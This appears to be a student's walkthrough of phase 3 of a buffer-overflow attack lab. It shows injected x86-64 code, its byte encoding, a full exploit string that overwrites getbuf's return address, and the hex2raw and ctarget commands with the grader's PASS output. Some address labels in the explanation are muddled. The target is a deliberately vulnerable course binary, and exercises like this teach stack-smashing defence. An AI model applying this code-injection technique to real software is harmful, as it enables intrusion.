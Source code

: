 Phase 3 is kinda similar to phase to except that we are trying to call the function touch3 and have to pass our cookie to it as string

In the instruction it tells you that if you store the cookie in the buffer allocated for getbuf, the functions hexmatch and strncmp
may overwrite it as they will be pushing data on to the stack, so you have to be careful where you store it.

We will be storing it before the return address of getbuff (24 bytes)

The return address of getbuf is %rsp + buffer, the buffer was 24 bytes so it will be %rsp + 24

`0x18` = `24`

we know, `%rsp = 0x55623840`

Thus, return address = `0x55623840 + 0x18  = 0x55623858`

Your cookie address = `0x55623840 - 0x18` = `0x55623828`

If you look in the disassembled file, you can find the address of touch3

Mine is at `0x00401860`

Now you need this assembly code, same steps generating the byte representation

```
    movq $0x55623858,%rdi /* %rsp + 0x18 */
    pushq $0x00401860      /* touch3 address */   
    retq
```

The byte representation is as follows:
```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 58 38 62 55 	mov    $0x55623858,%rdi
   7:	68 60 18 40 00       	pushq  $0x401860
   c:	c3                   	retq   
```

Now, grab the bytes from the above code and start constructing your exploit string. Create a new file named phase3.txt and here is what mine looks like:
```
48 c7 c7 58 38 62 55 68
60 18 40 00 c3 00 00 00 /* mov return address of getbuf to rdi register and push address of touch3 to the stack */
00 00 00 00 00 00 00 00 /* padding */
28 38 62 55 00 00 00 00 /* return address of rsp-0x18, where the string will be stored*/
34 33 34 62 34 62 37 30 /* cookie string*/
```
If you look at the last row above, the cookie is in hex format, so you need to take your cookie and convert in to string format.
Go to http://www.unit-conversion.info/texttools/hexadecimal/ and put in your cookie and it should give you the text format or you could look up ascii equivalent on your machine


Last step is to generate the raw eploit string using the hex2raw program.

`./hex2raw < phase3.txt > raw-phase3.txt`

Finally, you run the raw file

`./ctarget < raw-phase3.txt`

Response looks like below

```
Cookie: 0x434b4b70
Type string:Touch3!: You called touch3("434b4b70")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
